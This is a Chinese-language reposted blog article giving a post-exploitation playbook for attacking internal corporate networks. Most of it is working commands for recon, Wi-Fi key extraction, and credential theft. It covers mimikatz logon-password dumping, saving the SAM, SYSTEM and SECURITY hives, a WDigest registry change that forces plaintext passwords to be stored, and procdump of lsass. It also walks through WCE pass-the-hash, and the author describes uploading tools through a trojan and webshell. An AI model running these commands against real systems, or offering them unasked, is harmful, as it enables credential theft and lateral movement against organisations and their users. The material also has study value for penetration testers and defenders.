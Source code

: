 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/S3HhBdr54P4ucPFQIhpmiA)

**0x01 内网信息收集**  
1.内网基础信息：  

```
`内网网段信息：网段信息有助于我们对渗透的内网进行拓扑、分区。以拿下边界服务器为例，得到一定的控制权之后，一定要查看网卡信息，这样就收集到内部网络地址段的信息，进一步渗透，找到更多的内部网络地址。``内网大小：有助于我们了解整个公司的网络分布与组成，帮助我们寻找内网核心业务。`
```

  
2.内网核心业务信息：  

```
内网OA办公系统（大公司）、邮件服务器（大公司才有）、网络监控系统（一般都有）、财务应用系统、核心产品源码（对于IT公司，会架设自己的svn或者git服务器）
```

  
3.其他信息  

```
`系统管理员密码。``其他用户session，3389和ipc$连接记录，各用户回收站信息。``浏览器密码和浏览器cookie获取。``windows无线密码获取（利用netsh），数据库密码获取。``host文件获取和dns缓存信息收集等，可以查看DNS服务器的IP，如果是域，一般情况DNS服务器和域控是同一台！先定位出DNS服务器，再进行后面渗透。``杀软、补丁、进程、网络代理信息wpad信息（Web Proxy Auto-Discovery Protocol，是客户端通过DHCP或DNS协议探测代理服务器配置脚本url的一种方式），软件列表信息。``计划任务、帐号密码策略与锁定策略、共享文件夹、web服务器配置文件。``VPN历史密码等、TeamView密码等、启动项、iislog等。``常用的后渗透信息收集工具、PowerShell+各种内网渗透工具的使用。`
```

  
**0x02 内网实战（命令、工具及脚本）**  
1.用户列表、当前权限等  

```
`win：whoami、net user、net user 用户名、 net accounts``linux：whoami、id、who、cat /etc/passwd、cat /etc/group`
```

  
2.内网网络拓扑等信息  
以下两条命令可以查看无线网密码  

```
`netsh wlan show profiles``netsh wlan show profile name=“网络链接配置文件” key=clear`
```

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

除此，常用的有ipconfig、nslookup等等  
3.进程列表  

```
`win:tasklist` `linux: ps、 top`
```

4.端口信息  

```
`win: netstat -ano` `linux: netstat -ntulp 、ps -aux`
```

5.补丁信息  

```
`win系统：systeminfo``wmic qfe list full``wmic qfe list full /format:htable>c:\hotfixes.html`
```

  
第三条命令导出html到指定位置，浏览器打开效果如下  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  
linux：看一下是否有samba服务，或者使用rpm -qa来查询安装了哪些软件包，有一些可以通过名字来判断出是补丁包。  
6.本地用户习惯  

```
`c:\windows\SchedLgU.txt，如果未启动remote Storage Engine服务（win7和server03上都没找到此服务）和Task Scheduler服务，则不会记录。``c:\windows\Prefetch文件夹，里面记录着用户运行的程序列表。（已验证）``c:\Users\用户名\Recent文件夹，记录最近打开过的文件和文件夹（xp及server03是在c:\Documents and Settings\用户名\Recent）``查看收藏夹、文档目录等。`
```

  
7.凭证收集  
常用工具mimikatz、wce、Invoke-WCMDump、vaultcmd(win系统自带)  
CredentialManager，中文翻译为凭据管理器，用来存储凭据（如网站登陆和主机远程连接的用户名密码），如果用户选择存储凭据，那么当用户再进行对应的操作，系统会自动填入凭据，实现自动登陆，凭据保存在特定的位置，被称作保管库（vault，位于%localappdata%/Microsoft\Vault）  
Invoke-WCMDum PowerShell脚本，从凭据管理器导出Windows凭据  

```
`下载地址https://github.com/peewpw/Invoke-WCMDump``PS>Import-Module .\Invoke-WCMDump.ps1``PS>Invoke-WCMDump`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```
`vaultcmd命令（win系统自带），导出的不是明文密码，本人不会利用``列出保管库(vault)列表：vaultcmd /list``列出保管库(vault)概要，凭据名称和GUID：vaultcmd /listschem`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```
其他命令：cmdkey /list
```

8.系统哈希或明文密码获取  

```
`最方便的方法是利用cmd执行reg save命令从注册表导出。``XP等系统的密码位数超过14时，会采用NTLM加密，小于14位是LM。win7等更高版本，应该是NTLM。``test:1003:E52CAC67419A9A22664345140A852F61:67A54E1C9058FCA16498061B96863248:::``注意被冒号隔断的两组长字符串，前面是LM hash，后面是NTLM hash，hash一般存在两个地方：sam文件（system文件也需要），NTDS.DIT文件，存在域控上对应域用户。`
```

  
（1）mimikatz获取明文（一般会报毒）  
要以管理员身份运行，一般用在桌面环境。如果是终端条件，使用能以系统管理员身份运行的程序去调用mimikatz，执行以下两条命令就OK.  

```
`privilege::debug``sekurlsa::logonpasswords`
```

  
（2）注册表导出，本地分析（较安全准确）  

```
`win2000和XP需要先提权到system权限，server03开始，可以直接reg save，文件可能较大,效率低，但比较准确可靠。``reg save hklm\sam sam.hive(也可省略.hive，但二者有何区别暂不清楚)``reg save hklm\system system.hive``reg save hklm\security security.hive(这个文件什么用途暂不清楚)`
```

  
（3）Get-PassHashes脚本  

```
`cd c:\phpstudy\www （在终端先切换到ps1脚本目录）``powershell -ExecutionPolicy Bypass(设置会话默认执行策略，并进入PS）``import-module .\Get-PassHashes.ps1 (导入模块)``Get-PassHashes（大小写不敏感）`
```

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  
（4）wce读取明文，哈希注入  

```
`抓取明文（wce.exe -w，wce支持win系统绝大多数版本）``很快就能显示，但密码位数过长时，偶尔可能不准确，如下面第一张图，显示的密码中间少了两位，第二张图长度更长了，但显示的密码却是正确的``win8和server2012如果抓不出，在目标机修改注册表（CMD运行下命令）``reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

获取明文并保存  

```
`wce -o output.txt``type output.tx`
```

wce的hash注入  
hash注入的原理是将我们预备好的目标机器的本地或者是域用户hash注入到本地的认证进程lsass.exe中去，使得本地在使用ipc登录目标机器的时候就如同自己登录自己的机器一样获得权限。至于目标机器的本地或者是域用户hash如何取得那就要发挥你自己的想象力了。hash注入本身是为了对付那些破解不了的NTHASH  

```
`wce.exe -s <username>：<domain>：<lmhash>：<nthash>``wce.exe -s <username>：<domain>：<lmhash>：<nthash> -c cmd.exe`
```

  
配合上面提到的Get-PassHashes脚本，本地进行hash注入后，成功列出了目标机的文件。两个主机互测，一次成功了，但测试前没有尝试第二张图，不知是否是hash注入影响。攻守互换后，不成功。  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  
当提示注入成功的时候，这时候键入**net use**命令并没有看到有连接，其实已经可以连接了，直接使用ipc命令操作对方的机器就可以了。  
域里的域用户hash也可以使用wce进行注入，只需要把命令格式变一变就行

```
wce.exe -s 用户名:域名:LM-HASH:NT-HASH
```

  
（5）procdump（微软出品）+本地用mimikatz得明文，较安全  

```
`详细参考：http://www.91ri.org/6881.html``原帖英文 ：http://blog.gentilkiwi.com/securite/mimikatz/minidump`
```

  
mimikatz1.0版本直接用不行（需要先注入sekurlsa.dll），2.1.1 x64版本试验OK，另外路径中最好不要出现中文,且需要以管理员权限运行。  
我们运行mimikatz的平台要与进行dump的系统(source dump)兼容，假如你攻击的server2008,你需要用nt6平台使用mimikatz,兼容性如下：  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  
1）获取dump  
NT6可以使用任务管理器进行dump:  
个人觉得用到情况较少，一般有桌面环境，可以考虑直接运行mimikatz  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

也可使用procdump（win7亲测可用）：  

```
`官网下载：http://technet.microsoft.com/en-us/sysinternals/dd996900.aspx``procdump.exe -accepteula -ma lsass.exe lsass.dmp`
```

  
原帖中是通过ipc$入侵得到的dump文件，我是通过木马，使用菜刀连接上传procdump，靶机这边我用的是管理员权限，之所以这样做，是考虑到实战中，如果是低权限用户，也不会费劲的去破解对方密码吧。  
2）本地破解密码  
攻击者是win7，使用mimikatz的环境也要用NT6，把dmp文件放在mimikatz程序目录下。  
进入目录后，直接输入mimikatz并回车，注意权限，再运行下面两个命令。成功得到系统密码，我这里还用了syskey加密，仍然得到了明文。  

```
`sekurlsa::minidump lsass.dmp``sekurlsa::logonPasswords full`
```

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  
9.星号查看  
通过hook函数或者改变变量属性值来查看明文。  
通过改js代码，或使用浏览器插件可显示网页中星号的明文，但实战个人猜测用处不大。  
三、内网权限拓展（常见应用漏洞）：  
strust2、Zabbix、Axis2、ImageMagick、FastCGI、redis、Hadoop  
struts攻击参考：  

```
`https://www.anquanke.com/post/id/85674``https://www.cnblogs.com/peterpan0707007/p/7495649.html``https://www.anquanke.com/post/id/85744`
```

  
————————————————  
  
**0x03 原文链接**

```
https://blog.csdn.net/nilwiaoglwigjwlg/article/details/82834068
```

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

一如既往的学习，一如既往的整理，一如即往的分享。感谢支持![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

“如侵权请私聊公众号删文”

  

  

****扫描关注LemonSec****  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**觉得不错点个**“赞”**、“在看”哦****![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)**